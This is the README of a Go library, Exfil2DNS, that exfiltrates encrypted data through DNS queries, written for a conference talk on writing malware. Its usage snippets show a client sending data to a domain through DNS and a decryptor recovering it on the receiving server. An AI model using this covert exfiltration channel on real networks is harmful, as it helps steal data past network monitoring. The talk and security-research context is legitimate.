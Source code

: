 # Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Buffer encrypted bytes
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Usage

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	client, err := exfil2dns.NewClient(
		"cube", 
		"example.domain", 
		"ThisIsAKey1234", 23
	)
	
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    decryptor := exfil2dns.NewDecryptor("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

	target, payload, err := decryptor.Decrypt(queryString)
	if err != nil {
		log.Fatal(err)
	}

    fmt.Printf("Target: %v, Payload: %v", target, payload)
}
```
